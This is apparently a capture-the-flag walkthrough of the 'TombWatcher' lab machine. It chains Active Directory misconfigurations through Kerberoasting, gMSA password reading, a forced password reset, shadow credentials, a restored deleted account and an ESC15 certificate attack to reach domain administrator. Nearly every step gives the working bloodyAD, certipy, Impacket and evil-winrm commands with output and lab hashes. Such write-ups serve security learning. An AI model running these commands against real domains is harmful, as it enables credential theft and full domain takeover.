

# Attack Chain

```
└─► nmap → AD environment → assumed breach creds: henry
    └─► WriteSPN on Alfred → Kerberoast + hashcat → alfred:basketball
        └─► AddSelf on INFRASTRUCTURE → ReadGMSAPassword → ansible_dev$ hash
            └─► ForceChangePassword on sam → sam:Password123!
                └─► WriteOwner on john → GenericAll → Shadow Credentials
                    └─► evil-winrm as john → user.txt
                        └─► GenericAll on OU ADCS → certipy find → unresolved SID
                            └─► AD Recycle Bin → restore deleted cert_admin
	                            └─► Shadow Credentials → cert_admin hash
	                                └─► ESC15 / EKUwu → enrollment agent
	                                    └─► certipy auth → administrator hash
```

# Summary

- [Enumeration](#enumeration)
	- [nmap](#nmap)
	- [BloodHound](#bloodhound)
- [Chaining ACLs misconfigurations](#chaining-acls-misconfigurations)
	- [WriteSPN on Alfred](#writespn-on-alfred)
	- [AddSelf on the INFRASTRUCTURE group](#addself-on-the-infrastructure-group)
	- [Read GMSA password](#read-gmsa-password)
	- [ForceChangePassword on sam](#forcechangepassword-on-sam)
	- [WriteOwner on john](#writeowner-on-john)
	- [Shell as John](#shell-as-john)
- [Privilege Escalation](#privilege-escalation)
	- [Certipy Output](#certipy-output)
	- [AD bin recycle](#ad-bin-recycle)
	- [Restore cert_admin](#restore-cert_admin)
	- [Shadow Credential cert_admin](#shadow-credential-cert_admin)
	- [Vulnerable Template](#vulnerable-template)
	- [ESC15 exploit](#esc15-exploit)

---

As is common in real life Windows pentests, you will start the TombWatcher box with credentials for the following account: `henry` / `H3nry_987TGV!`
# Enumeration

### nmap

```bash
nmap -sCV -p- 10.129.232.167 -oA nmap

Nmap scan report for 10.129.232.167
Host is up (0.028s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-06-09 12:18:49Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-06-09T12:20:24+00:00; +4h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.tombwatcher.htb
| Not valid before: 2024-11-16T00:47:59
|_Not valid after:  2025-11-16T00:47:59
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-06-09T12:20:23+00:00; +3h59m59s from scanner time.
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.tombwatcher.htb
| Not valid before: 2024-11-16T00:47:59
|_Not valid after:  2025-11-16T00:47:59
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.tombwatcher.htb
| Not valid before: 2024-11-16T00:47:59
|_Not valid after:  2025-11-16T00:47:59
|_ssl-date: 2026-06-09T12:20:24+00:00; +4h00m00s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.tombwatcher.htb
| Not valid before: 2024-11-16T00:47:59
|_Not valid after:  2025-11-16T00:47:59
|_ssl-date: 2026-06-09T12:20:24+00:00; +4h00m00s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49691/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49692/tcp open  msrpc         Microsoft Windows RPC
49694/tcp open  msrpc         Microsoft Windows RPC
49713/tcp open  msrpc         Microsoft Windows RPC
62732/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2026-06-09T12:19:46
|_  start_date: N/A
| smb2-security-mode:
|   311:
|_    Message signing enabled and required
|_clock-skew: mean: 4h00m00s, deviation: 1s, median: 3h59m59s
```

We are facing an AD. From the nmap output, we have the target domain along its FQDN.

Let's add both entry to our `/etc/hosts` file.

```bash
echo "10.129.232.167 DC01.tombwatcher.htb tombwatcher.htb" | tee -a /etc/hosts
```

### BloodHound

Since we have credentials given for the assessment, we can run Bloodhound and scan the target.

```bash
bloodhound.py --zip -c All -d "tombwatcher.htb" -u "henry" -p 'H3nry_987TGV!' -ns 10.129.232.167
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: tombwatcher.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.tombwatcher.htb
INFO: Testing resolved hostname connectivity dead:beef::9919:e92e:c1d6:14a9
INFO: Trying LDAP connection to dead:beef::9919:e92e:c1d6:14a9
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.tombwatcher.htb
INFO: Testing resolved hostname connectivity dead:beef::9919:e92e:c1d6:14a9
INFO: Trying LDAP connection to dead:beef::9919:e92e:c1d6:14a9
INFO: Found 9 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.tombwatcher.htb
INFO: Done in 00M 09S
INFO: Compressing output into 20260609142430_bloodhound.zip
```

We start the neo4j database in order for Bloodhound to launch

```
neo4j start
```

And we import data the collected data.


# Chaining ACLs misconfigurations

From the request **Reachable High Value Targets** in the Henry node we notice the following.



We have a clear path on how to get a shell on the target so let's chain everything up.
### WriteSPN on Alfred

`WriteSPN` means our user has the right to write in the attribute `servicePrincipalName` of an user so it can be kerberoasted after. In this case, we can write it for `alfred`.

Let's add an SPN entry to `alfred`

```bash
bloodyAD --host "10.129.232.167" -d "tombwatcher.htb" -u "henry" -p 'H3nry_987TGV!' set object alfred servicePrincipalName -v 'HTTP/hacked.spn'
[+] alfred's servicePrincipalName has been updated
```

We can check if `alfred` appears in the list of kerberoastable users now.

```bash
GetUserSPNs.py -dc-ip "$DC_IP" "$DOMAIN"/"henry":'H3nry_987TGV!'
Impacket (Exegol fork) v0.13.0.dev0+20250723.125503.b5db2dd7 - Copyright Fortra, LLC and its affiliated companies

ServicePrincipalName  Name    MemberOf  PasswordLastSet             LastLogon  Delegation
--------------------  ------  --------  --------------------------  ---------  ----------
HTTP/hacked.spn       Alfred            2025-05-12 17:17:03.526670  <never>
```

It indeed appears. We can now request a ticket which will have an hash derived from `alfred`'s password. So if we can crack it, we will be in control of `alfred`.

```bash
GetUserSPNs.py -dc-ip "$DC_IP" "$DOMAIN"/"henry":'H3nry_987TGV!' -request -o alfred.hash
Impacket (Exegol fork) v0.13.0.dev0+20250723.125503.b5db2dd7 - Copyright Fortra, LLC and its affiliated companies

ServicePrincipalName  Name    MemberOf  PasswordLastSet             LastLogon  Delegation
--------------------  ------  --------  --------------------------  ---------  ----------
HTTP/hacked.spn       Alfred            2025-05-12 17:17:03.526670  <never>
```

Let's use `hashcat` to crack it.

```bash
hashcat alfred.hash -m 13100 /usr/share/wordlists/rockyou.txt
<SNIP>

$krb5tgs$23$*Alfred$TOMBWATCHER.HTB$tombwatcher.htb/Alfred*$e24c552f781955a0d48588ee35422633$e16f98dc574a26ab402dc1771cbd97b19895125032599526da29c2a28dfe5b97e7d40ee3ee5c6f5eeee97b514f34680b40abe2508aa12d505b2c127ce3fb93910b093f87227b8bc4d989a0384f361710b9abd9466e7c86350576003c2a33f2a66e515a89735f32e231c38fe20f7ba4faf093e29ec8f2c53167cd2af03becd0b5e2bebd42395f00bd274384280c68c939d68abd19a247052e9f781bfd1a582653d96c2c1bf3935d5a18546b88dfd64beb602dfbecf3ca7b8cc69ff77789556a7936ba3107e53f6ae99d8f146c3280d4cecb6209f68a243e4328ec28b998e698b62b2e0106ac4d7d906353c58606b41343423ed1960c601c0777d95ce4846c14bcbf892f18df1cd8f5c66864c633b66702605a523e737d26bea178a25f014698b2e0d4b5e49bcc8763b3c7fe387f7dc4afdba47f63bd7769322d6ed3923e052d7d0a7288dfcc7c48f3859941d3fa261b7e1ec25339dc27db03e43e03639258f53d41b8eb3080ae8b1b67c2cd4cd9510b5b52359346a8a21a6f888928c3bb18139462d2a7e3f09639ee612b3d3f29e46b41b694920e16df3e462a7415a56558fa249455eda4b6784bc0c9b8657abc9b0221a1f8eed42d4b423c4e4d983854495aa63a8483640b576c48f5aea99b818ee1ce7aabafe4348348da63a722b1fdfbbc329e43791e7c5baaa92405b5288de0b9651afbf11252d47e99d41cfab3dde1972042c4237bf932f48bd2431ae2ab9285105f16af76781c4257c2c863b7ab42e1ff1e7621bfc750f540d43610e1ebec10886f3fee31a039d965c8442a7952b9d970bedf5d8666ba93f68f85b9fb4760d16e7bf111b0b544fbd619bca805df14c52c61ea2d429b1d80f9971177130582fe652569a34a20e0fce80853ed734db8dae8a83f4431afb89f28ba262530f1ed91b1f3bcbb3728cb6cfc8f233f6cc73a93158844ed8158b9e39790f92641eba79fe3a3eb0aff9cc0887060ddc32391c115ec6c7502f955069eca0912f9c4272fdf19c90b614539754f70c5a269d2050ee07618c040d90c92e7843a40fd84d63e186ceb91a895df6394dc344b698daa872d5824c4e0568a9e36c4ef4f9b419c508fa4ac97c8befd126bd69bc95c3061c3b6c5d16857257dc3603c1bcadfbfc18acb05c1ea012097a339aa32320fe00052e48327efaa74874ad6479ebebb0d1bc68f3fa2aa6603bb6bcb09a13403ff104bbc27eb5d414de53edfe5856e3d6c53046d871b1802fb048097570cc51f25af176b1ddaa721cd62d0815ee84228632edc1fbfb3af4c44be7a1ad95f2366ba794d4f4b2c548e7843cfe22b917b7935a703a491db7e5d2a5fdc8e55f6d694f6878ee440570f882a3d0d8216ba3736d621b2c47be0d7de30f5c6f560124c2cf7ac7b714909e9065aa1e78ea4a78a3bc6ece7a4508b69c1ae94234cde59962b56de14c2489ab6a5676117e7887fd2cf8cf4c6e30ab170685b19:basketball

<SNIP>
```

The hash has been cracked, and the password for `alfred` is **`basketball`**

### AddSelf on the INFRASTRUCTURE group

We are in control of `alfred`, and this account has `AddSelf` on the group `INFRASTRUCTURE` which mean it can add himself to the group directly.

```bash
bloodyAD --host "10.129.232.167" -d "tombwatcher.htb" -u "alfred" -p 'basketball' add groupMember Infrastructure alfred
[+] alfred added to Infrastructure
```

`alfred` is now a member of the group `INFRASTRUCTURE`.

### Read GMSA password

The members of the group `INFRASTRUCTURE` has the right `ReadGMSAPassword` which is explicit. We can use `NetExec` to perform the action and retrieve the password of GMSA's accounts.

```bash
nxc ldap 10.129.232.167 -u alfred -p basketball --gmsa         LDAP        10.129.232.167  389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:tombwatcher.htb) (signing:None) (channel binding:Never)
LDAP        10.129.232.167  389    DC01             [+] tombwatcher.htb\alfred:basketball
LDAP        10.129.232.167  389    DC01             [*] Getting GMSA Passwords
LDAP        10.129.232.167  389    DC01             Account: ansible_dev$         NTLM: b91f529d36292ba764273e5dd7b90fa1     PrincipalsAllowedToReadPassword: Infrastructure
```

We have been able to retrieve the NTLM hash of the GMSA user `ansible_dev$`. 
Its hash is `b91f529d36292ba764273e5dd7b90fa1`

### ForceChangePassword on sam

Let's continue our chaining.
GMSA user `ansible_dev$` has `ForceChangePassword` on the `sam` user. That mean that we can change the password of the user `sam` and set it to whatever we want. For exemple `Password123!`.

```bash
bloodyAD --host "10.129.232.167" -d "tombwatcher.htb" -u "ansible_dev$" -p ':b91f529d36292ba764273e5dd7b90fa1' set password sam 'Password123!'
[+] Password changed successfully!
```

Its password should have changed now. We can check if the password is valid with `NetExec`.

```bash
nxc smb 10.129.232.167 -u sam -p 'Password123!'
SMB         10.129.232.167  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:tombwatcher.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB   10.129.232.167  445    DC01             [+] tombwatcher.htb\sam:Password123!
```

The credentials are valid so we are now in control of `sam` too.

### WriteOwner on john

The last step of the chain. `sam` has `WriteOwner` on `john` which mean that if we change ownership of `john` and transfer the ownership to `sam` that we control, we will be able to add `GenericAll` on `john` and perform a shadow credential attack to retrieve its NTLM hash.

First we transfer the ownership of `john` to `sam`.

```bash
bloodyAD --host "10.129.232.167" -d "tombwatcher.htb" -u "sam" -p 'Password123!' set owner john sam
[+] Old owner S-1-5-21-1392491010-1358638721-2126982587-512 is now replaced by sam on john
```

We can now add `GenericAll` to `john`.

```bash
bloodyAD --host "10.129.232.167" -d "tombwatcher.htb" -u "sam" -p 'Password123!' add genericAll john sam
[+] sam has now GenericAll on john
```

And we should be able to perform a shadow credential attack.

```bash
bloodyAD --host "10.129.232.167" -d "tombwatcher.htb" -u "sam" -p 'Password123!' add shadowCredentials john
[+] KeyCredential generated with following sha256 of RSA key: f2c9ed00fe52abd51e07989bb317a507b883e0687d62d2b432213f2a3204ebe4
[+] TGT stored in ccache file john_qO.ccache

NT: ad9324754583e3e42b55aad4d3b8d2bf
```

We have the NTLM hash of `john`.

### Shell as John

Let's connect to the target with `evil-winrm`.

```bash
evil-winrm -i 10.129.232.167 -u john -H ad9324754583e3e42b55aad4d3b8d2bf

Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\john\Documents>
```

From here we can grab the user flag.

# Privilege Escalation

Let's get back to Bloodhound to see what `john` can do.


`john` has `GenericAll` on the OU `ADCS`, which mean that this privilege is inherited to every objects inside the OU, so we have `GenericAll` on everything inside. Weirdly, the OU contains nothing.

### Certipy Output

Let's enumerate the template with `certipy`.

```bash
certipy find -u "john@tombwatcher.htb" -hashes ':ad9324754583e3e42b55aad4d3b8d2bf' -dc-ip 10.129.232.167 -ns 10.129.232.167 -stdout
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 13 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'tombwatcher-CA-1' via RRP
[*] Successfully retrieved CA configuration for 'tombwatcher-CA-1'
[*] Checking web enrollment for CA 'tombwatcher-CA-1' @ 'DC01.tombwatcher.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[!] Failed to lookup object with SID 'S-1-5-21-1392491010-1358638721-2126982587-1111'
[*] Enumeration output:

<SNIP>

 17
    Template Name                       : WebServer
    Display Name                        : Web Server
    Certificate Authorities             : tombwatcher-CA-1
    Enabled                             : True
    Client Authentication               : False
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Extended Key Usage                  : Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 1
    Validity Period                     : 2 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2024-11-16T00:57:49+00:00
    Template Last Modified              : 2024-11-16T17:07:26+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
                                          S-1-5-21-1392491010-1358638721-2126982587-1111
      Object Control Permissions
        Owner                           : TOMBWATCHER.HTB\Enterprise Admins
        Full Control Principals         : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Write Owner Principals          : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Write Dacl Principals           : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Write Property Enroll           : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
                                          S-1-5-21-1392491010-1358638721-2126982587-1111

<SNIP>
```

We fail to resolve `S-1-5-21-1392491010-1358638721-2126982587-1111`, and the user behind that sid can request the `WebServer` certificate. 

### AD bin recycle

The object has probably been deleted so we can check inside the AD recycle bin from our `evil-winrm` shell.

```powershell
*Evil-WinRM* PS C:\Users\john\Desktop> Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties * | Where-Object { $_.objectSid -like '*-1111' }


accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : tombwatcher.htb/Deleted Objects/cert_admin
                                  DEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf
CN                              : cert_admin
                                  DEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf
codePage                        : 0
countryCode                     : 0
Created                         : 11/16/2024 12:07:04 PM
createTimeStamp                 : 11/16/2024 12:07:04 PM
Deleted                         : True
Description                     :
DisplayName                     :
DistinguishedName               : CN=cert_admin\0ADEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf,CN=Deleted Objects,DC=tombwatcher,DC=htb
dSCorePropagationData           : {11/16/2024 12:07:10 PM, 11/16/2024 12:07:08 PM, 12/31/1600 7:00:00 PM}
givenName                       : cert_admin
instanceType                    : 4
isDeleted                       : True
LastKnownParent                 : OU=ADCS,DC=tombwatcher,DC=htb
lastLogoff                      : 0
lastLogon                       : 0
logonCount                      : 0
Modified                        : 11/16/2024 12:07:27 PM
modifyTimeStamp                 : 11/16/2024 12:07:27 PM
msDS-LastKnownRDN               : cert_admin
Name                            : cert_admin
                                  DEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf
nTSecurityDescriptor            : System.DirectoryServices.ActiveDirectorySecurity
ObjectCategory                  :
ObjectClass                     : user
ObjectGUID                      : 938182c3-bf0b-410a-9aaa-45c8e1a02ebf
objectSid                       : S-1-5-21-1392491010-1358638721-2126982587-1111
primaryGroupID                  : 513
ProtectedFromAccidentalDeletion : False
pwdLastSet                      : 133762504248946345
sAMAccountName                  : cert_admin
sDRightsEffective               : 7
sn                              : cert_admin
userAccountControl              : 66048
uSNChanged                      : 13197
uSNCreated                      : 13186
whenChanged                     : 11/16/2024 12:07:27 PM
whenCreated                     : 11/16/2024 12:07:04 PM
```

There is indeed the account `cert_admin` that match the sid. It has the guid `938182c3-bf0b-410a-9aaa-45c8e1a02ebf`.

### Restore cert_admin

Let's restore the user.

```powershell
*Evil-WinRM* PS C:\Users\john\Desktop> Restore-ADObject -Identity '938182c3-bf0b-410a-9aaa-45c8e1a02ebf'
```

And we can check if the restore is effective.

```powershell
*Evil-WinRM* PS C:\Users\john\Desktop> Get-ADUser -Identity cert_admin -Properties memberOf,distinguishedName


DistinguishedName : CN=cert_admin,OU=ADCS,DC=tombwatcher,DC=htb
Enabled           : True
GivenName         : cert_admin
MemberOf          : {}
Name              : cert_admin
ObjectClass       : user
ObjectGUID        : 938182c3-bf0b-410a-9aaa-45c8e1a02ebf
SamAccountName    : cert_admin
SID               : S-1-5-21-1392491010-1358638721-2126982587-1111
Surname           : cert_admin
UserPrincipalName :
```

Let's check the ACLs of `john`  to check if the user was in the `ADCS` OU.

```bash
bloodyAD --host 10.129.232.167 -d tombwatcher.htb -u john -p ':ad9324754583e3e42b55aad4d3b8d2bf' get writable                                                                          
distinguishedName: CN=Deleted Objects,DC=tombwatcher,DC=htb
permission: WRITE

distinguishedName: CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=tombwatcher,DC=htb
permission: WRITE

distinguishedName: CN=john,CN=Users,DC=tombwatcher,DC=htb
permission: WRITE

distinguishedName: OU=ADCS,DC=tombwatcher,DC=htb
permission: CREATE_CHILD; WRITE
OWNER: WRITE
DACL: WRITE

distinguishedName: CN=cert_admin\0ADEL:f80369c8-96a2-4a7f-a56c-9c15edd7d1e3,CN=Deleted Objects,DC=tombwatcher,DC=htb
permission: CREATE_CHILD; WRITE
OWNER: WRITE
DACL: WRITE

distinguishedName: CN=cert_admin\0ADEL:c1f1f0fe-df9c-494c-bf05-0679e181b358,CN=Deleted Objects,DC=tombwatcher,DC=htb
permission: CREATE_CHILD; WRITE
OWNER: WRITE
DACL: WRITE

distinguishedName: CN=cert_admin,OU=ADCS,DC=tombwatcher,DC=htb
permission: CREATE_CHILD; WRITE
OWNER: WRITE
DACL: WRITE
```

`cert_admin` appears and the last is the one we restored because it doesn't have the `\0ADEL` in its name. We also have full rights on the target confirming `GenericAll` has been applied to the user since it's inside the OU `ADCS` where `john` has `GenericAll`.

### Shadow Credential cert_admin

We can perform again a shadow credential attack and retrieve its NTLM hash.

```bash
bloodyAD --host 10.129.232.167 -d tombwatcher.htb -u john -p ':ad9324754583e3e42b55aad4d3b8d2bf' add shadowCredentials cert_admin
[+] KeyCredential generated with following sha256 of RSA key: db4c3b68208f667e801445ff0b188bc3a8c5d40382a183ea43b61c04039b647e
[+] TGT stored in ccache file cert_admin_UI.ccache

NT: f87ebf0febd9c4095c68a88928755773
```

The NTLM hash of `cert_admin` is `f87ebf0febd9c4095c68a88928755773` and a TGT is stored on our machine.

### Vulnerable Template

Let's look for vulnerable template now.

```bash
certipy find -u "cert_admin@tombwatcher.htb" -hashes ':f87ebf0febd9c4095c68a88928755773' -dc-ip 10.129.232.167 -ns 10.129.232.167 -stdout -vulnerable

<SNIP>

Template Name                       : WebServer
    Display Name                        : Web Server
    Certificate Authorities             : tombwatcher-CA-1
    Enabled                             : True
    Client Authentication               : False
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Extended Key Usage                  : Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 1
    Validity Period                     : 2 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2024-11-16T00:57:49+00:00
    Template Last Modified              : 2024-11-16T17:07:26+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
                                          TOMBWATCHER.HTB\cert_admin
      Object Control Permissions
        Owner                           : TOMBWATCHER.HTB\Enterprise Admins
        Full Control Principals         : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Write Owner Principals          : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Write Dacl Principals           : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Write Property Enroll           : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
                                          TOMBWATCHER.HTB\cert_admin
    [+] User Enrollable Principals      : TOMBWATCHER.HTB\cert_admin
    [!] Vulnerabilities
      ESC15                             : Enrollee supplies subject and schema version is 1.
    [*] Remarks
      ESC15                             : Only applicable if the environment has not been patched. See CVE-2024-49019 or the wiki for more details.
```

The template `WebServer` is vulnerable to **ESC15**.

### ESC15 exploit

**ESC15** means we can request a certificate, injecting "**Certificate Request Agent**" Application Policy and target the administrator using the "WebServer" template, which allows enrollee-supplied subject.

Since Microsoft has implemented a lot security around ADCS, a lot of CA refuse authentication with NTLM. So we have to perform the attack with the ticket we got earlier when performing the shadow credential attack.

Let's export the ticket to the variable `KRB5CCNAME`.

```bash
export KRB5CCNAME=cert_admin_UI.ccache
```

Now we can request the certificate `WebServer`, and inject the Application Policy in "Certificate Request Agent". 

The certificate will be for the user `cert_admin` so it become an enrollment agent.

```bash
certipy req -u 'cert_admin@tombwatcher.htb' -k -no-pass \        
-dc-ip 10.129.232.167 -target 'DC01.tombwatcher.htb' \
  -ca 'tombwatcher-CA-1' -template 'WebServer' \
  -application-policies 'Certificate Request Agent'
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[!] DC host (-dc-host) not specified and Kerberos authentication is used. This might fail
[*] Requesting certificate via RPC
[*] Request ID is 7
[*] Successfully requested certificate
[*] Got certificate without identity
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'cert_admin.pfx'
[*] Wrote certificate and private key to 'cert_admin.pfx'
```

Now we use our `.pfx` certificate to request a certificate on behalf of the `administrator` user.

```bash
certipy req -u 'cert_admin@tombwatcher.htb' -k -no-pass \
  -dc-ip 10.129.232.167 -target 'DC01.tombwatcher.htb' \
  -ca 'tombwatcher-CA-1' -template 'User' \
  -pfx 'cert_admin.pfx' -on-behalf-of 'TOMBWATCHER\administrator'
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[!] DC host (-dc-host) not specified and Kerberos authentication is used. This might fail
[*] Requesting certificate via RPC
[*] Request ID is 8
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@tombwatcher.htb'
[*] Certificate object SID is 'S-1-5-21-1392491010-1358638721-2126982587-500'
[*] Saving certificate and private key to 'administrator.pfx'
File 'administrator.pfx' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote certificate and private key to 'administrator.pfx'
```

We got a valid certificate for `administrator`. All is left is to authenticate with that certificate to retrieve its NTLM hash and a TGT.

```bash
certipy auth -pfx 'administrator.pfx' -dc-ip 10.129.232.167

Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@tombwatcher.htb'
[*]     Security Extension SID: 'S-1-5-21-1392491010-1358638721-2126982587-500'
[*] Using principal: 'administrator@tombwatcher.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@tombwatcher.htb': aad3b435b51404eeaad3b435b51404ee:f61db423bebe3328d33af26741afe5fc
```

We can now connect to the target as `administrator`.

```bash
evil-winrm -i 10.129.232.167 -u administrator -H f61db423bebe3328d33af26741afe5fc

Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

Machine rooted